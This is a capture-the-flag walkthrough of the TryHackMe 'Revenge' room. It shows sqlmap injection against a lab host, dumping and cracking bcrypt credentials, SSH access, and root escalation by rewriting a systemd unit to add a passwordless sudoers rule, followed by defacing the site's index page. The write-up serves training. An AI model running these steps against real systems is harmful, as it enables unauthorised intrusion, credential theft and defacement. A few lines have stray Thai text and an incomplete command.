

### ✨ Introduction
Revenge is a Web-focused CTF room on TryHackMe, designed to challenge participants with tasks such as exploiting web applications, performing SQL Injection, escalating privileges, and defacing the website's front page according to the objectives provided.

### 🔍 Challenge Objective
"Break into the server that’s running the website and deface the front page."

Summary:
- Gain access to the target machine
- Modify the website's front page
- Capture all three flags

# 🧠 TryHackMe - Revenge

> 🟡 Category: Web / Privilege Escalation
> 🧩 Difficulty: Medium
> 🕵️‍♂️ Mode: Capture The Flag (CTF)
> 🧩 URL: [Revenge](https://tryhackme.com/room/revenge)  
> 👨‍💻 Author: Thanyakorn

---

## 📚 Table of Contents
- 📌 Challenge Overview
- 🛰️ 1. Target Information
- 🌐 2. Exploring the Website
- 📌 Initial Observations  
- 🚪 3. Initial Access
  - 🔸 3.1 Testing for SQL Injection using sqlmap
  - 🔸 3.2 Database Structure Enumeration 
  - 🔸 3.3 Dumping the user Table
  - 🔸 3.4 Dumping the system_user Table
  - 🔐 3.5 Credential Cracking with John the Ripper
- 🛠️ Preparing Hash Files
- 🧂 Cracking Bcrypt Hashes with John the Ripper
  - 📦 Using john with rockyou.txt
- 🔐 4. SSH into the Target Machine
- 📁 5. Searching for Flags
- 🔼 6. Privilege Escalation  
  - 🔍 6.1 Checking Sudo Privileges
  - ✏️ 6.2 Editing Service Files using sudoedit 
  - ⚙️ 6.3 Modifying Unit File to Exploit Service Privileges  
  - 🔄 Reload และ Restart Service  
  - 🧑‍💻 6.4 Escalating to Root
  - 📂 Searching for Additional Flags  
- 🌐 7. Defacing the Website 
  - 📁 7.1 Locating the Website Directory
  - ✍️ 7.2 Editing the Front Page
  - 🛠️ 7.3 Saving and Verifying Changes
- 🏁 8. Capturing the Final Flag (flag3.txt)


---

## 📌 Challenge Overview

> "What I want you to do is simple. Break into the server that's running the website and deface the front page."

💬 Interpretation: The goal is to gain access to the server hosting the website and modify its front page (deface).

---

## 🛰️ 1. Target Information

- Target IP: `10.10.28.30`
- Open Ports: `22`, `80`

---

## 🌐 2. Exploring the Website

- Navigate to the **Products** menu; four products are listed.  
- Click **LEARN MORE** on any product.


- Example: Box of Duckies
- Product details such as image, description, price, and color are displayed 
- Notice the URL path: `/products/1`  
- Navigate back and click **LEARN MORE** on another product


- The path updates only the product ID: `/products/2`


- Change the URL ID to 3 to view the third product


---

## 📌 Initial Observations

- The website likely fetches product data from a database using the URL ID parameter
- Injecting a single quote `'` into the parameter triggers an HTTP 500 error, indicating a potential SQL Injection vulnerability


---

## 🚪 3. Initial Access

### 🔸 3.1 Testing SQL Injection with sqlmap

📥 Use the command:

```bash
sqlmap -u "http://10.10.28.30/products/3*" --dbs
```


📝 **Explanation:**

- `sqlmap` is an automated tool to test SQL Injection and extract database information 
- `-u` specifies the target URL; `"3*"` uses a wildcard to test multiple values for the `id` parameter  
- `--dbs` lists all databases connected to the web application


💡 Result: Several databases were found, including the main `duckyinc` and system databases like `mysql` and `information_schema`.

> Focus will be on the `duckyinc` database as it contains the primary website data.

**Summary:**  
SQL Injection confirmed at the `id` URL parameter, granting access to the main database.

### 🔸 3.2 Database Structure Enumeration

📥 Use the command:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc --columns
```


📝 **Explanation:**

- `-D duckyinc` specifies the database
- `--columns` lists all columns in all tables of the database


Respond `Y` when prompted to continue.


💡 Result: Database structure obtained, necessary for extracting target data.

### 🔸 3.3 Dumping the user Table

After enumerating the database, the next step is to retrieve data from the `user` table, which may contain sensitive information like passwords or flags.

📥 Use the command:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc -T user --dump
```


📝 **Explanation:**

- `-D duckyinc` specifies the target database.
- `-T user` specifies the table to dump.
- `--dump` extracts all data from the table.


💡 Result: The `credit_card` column of `id=6` contains a hidden flag.


### 🔸 3.4 Dumping the system_user Table

Next, focus on the `system_user` table, which may contain user credentials or information relevant for privilege escalation.

📥 Use the command:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc --dump -T system_user
```


📝 **Explanation:**

- `-T system_user` specifies the table to dump


💡 Result: Found `username` and `password` stored as bcrypt hashes.

### 🔐 3.5 Credential Cracking with John the Ripper

The passwords retrieved from the `system_user` table are in bcrypt format, a commonly used hashing algorithm.

## 🛠️ Preparing Hash Files

1. Create a folder named `ducky` and navigate into it:

```bash
mkdir ducky
cd ducky
```

2. Create a file named `hashes.txt` to store the hashes:

```bash
nano hashes.txt
```


3. Paste the bcrypt hash obtained from sqlmap (only for `server-admin` to speed up cracking).

> 📌 It is recommended to delete other `hashes` to be able to decrypt.


---

4. Verify the hash is correctly saved:

```bash
cat hashes.txt
```

## 🧂 Cracking Bcrypt Hashes with John the Ripper
### 📦 Use john with rockyou.txt for a dictionary attack:

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

⚠️ หมายเหตุ:
> If `No password hashes left to crack` appears, john has already cracked the hashes or no valid hashes remain in the file.

- After completion, display results:

```bash
john --show hashes.txt
```


💡 Result: The password `inuyasha` is retrieved for `server-admin`.

---

## 🔐 4. SSH into the Target Machine

- With `server-admin` credentials (`inuyasha`), SSH into the target machine on port 22:
  
📥 Use the command:

```bash
ssh server-admin@10.10.28.30
```

📝 Explanation:

- SSH (Secure Shell) allows secure remote access.
- Suitable for server management, file operations, and running commands remotely.
- Data is encrypted during transmission.
- Enter the password inuyasha when prompted.
  
✅ Successful connection yields a shell as server-admin.


---

## 📁 5. Searching for Flags

Check the home directory of `server-admin`:

```bash
ls
```

💡 Result: `flag2.txt` is present.

📥 Use the command:

```bash
cat flag2.txt
```


✅ Captured the second flag.


---

## 🔼 6. Privilege Escalation

Check `server-admin` sudo privileges:

### 🔍 6.1 Checking Sudo Privileges:

```bash
sudo -l
```


💡 Result: Able to run `systemctl` to start/stop/restart `duckyinc` service.

### ✏️ 6.2 Editing Service Files with sudoedit

📥 Use the command:

```bash
sudoedit /etc/systemd/system/duckyinc.service
```


💡 When you press Enter, the file will be opened with an editor (such as nano or vi) so you can edit the configuration immediately.


🔍 The application was found to be running under the `flask-app` user, which is not `root`.

🔍 The software indicates that the app is developed using Flask (a Python web framework).

🔍 A privilege escalation from the `flask-app` user to `root` is required.


After editing the service file, the daemon must be reloaded for systemd to pick up the changes:

```bash
sudo  systemctl daemon-reload
```

Restart service:

```bash
sudo systemctl restart duckyinc.service
```


### ⚙️ 6.3 Modifying Unit File to Exploit Service Privileges

- The goal of this step is to insert a command into the Service `(ExecStart)` for the user `server-admin`, which can then be used to run `/bin/bash` with `root` privileges without a password.

- In the `duckyinc.service` file, edit the `ExecStart` line as follows: ฝใ

```bash
/bin/bash -c "echo 'server-admin ALL=(ALL) NOPASSWD: /bin/bash' | sudo tee /etc/sudoers.d/server_admin_as_root &&
```
  


📝 คำอธิบาย:

- echo 'server-admin ALL=(ALL) NOPASSWD: /bin/bash' creates a new rule that allows sudo to run bash without a password.
- sudo tee /etc/sudoers.d/server_admin_as_root saves this rule to the system.
- Use && at the end to continue running existing applications as normal (without crashing the system).

> 🎯 This is where we "embed" the payload into the service, so that when the service is run again (with systemctl), the system will execute as we requested (privilege escalation).

- Don't forget to append the ExecStart line to allow the service to continue running.



### 🔄 Reload และ Restart Service

- After editing the .service file, run the command below to make systemd load the changed values:

```bash
sudo systemctl daemon-reload
sudo systemctl restart duckyinc.service
```


> 📌 Doing this will allow the server-admin user to run /bin/bash with root privileges without entering a password.

- Then, verify your permissions again with the command:

```bash
sudo -l
```


### 🧑‍💻 6.4 Escalating to Root

After reloading and restarting the service, the `server-admin` user will now be able to run the `/bin/bash` command with `root` privileges without a password.

📥 Use the command:

```bash
sudo bash
```

✅ Shell now runs as root.


### 📂 Find More Flags

- Use the ls command to check the files in the current folder.

```bash
ls
ls -la
```

- The expected file flag4.txt was not found.


📭 Result: No flag4 or suspicious files in the home directory.

⚠️ 6.4 Actual Goal: Deface the Webpage

> 📌 Remember, the goal of this mission, as stated in the task, is:

"Break into the server and deface the front page."

It's not just about escalating privileges.

---

## 🌐 7. Deface the Webpage

We'll now change the website's homepage (default page) to corrupt it, as per the task.

### 📁 7.1 Find the Website Directory

The website is located at:

```bash
cd /var/www/duckyinc/
ls
```
🔍 Once inside, you'll find a folder named `templates`.

- Go to templates and look inside:

```bash
cd templates
ls
```


### ✍️ 7.2 Editing the Website Homepage

> When you open the index.html file, you'll see the HTML code for the entire website homepage.

📥 Use the command:

```bash
nano index.html
```

📝 Description:

- `nano` is an editor for editing files from the command line.
- `index.html` is the website homepage file. — Editing this file will immediately change the website homepage.

After we run `nano`, we can see that the code for creating the website homepage is exactly the same.


### 🛠️ 7.3 Edit the web page and save the changes.

- Edit the heading in the index.html file from `<h1>Rubber Ducky Inc.</h1>` → `<h1>Chokchai Want Grade F Kub</h1>`

- Then press `Ctrl + X` → `Y` to save and `Enter` to confirm the change to the original file name.

📷 After `Save`, open the website in a `Browser`


✅ You will see that the web page changes to reflect the changes, indicating that the `Deface` was successful.

## 🏁 8. Find the last flag (flag3.txt)

- Return to the root directory:

```bash
cd /root
ls
```
- The file To create `flag3.txt`, use the following command:

```bash
cat flag3.txt
```


- ✅ Last `Flag`


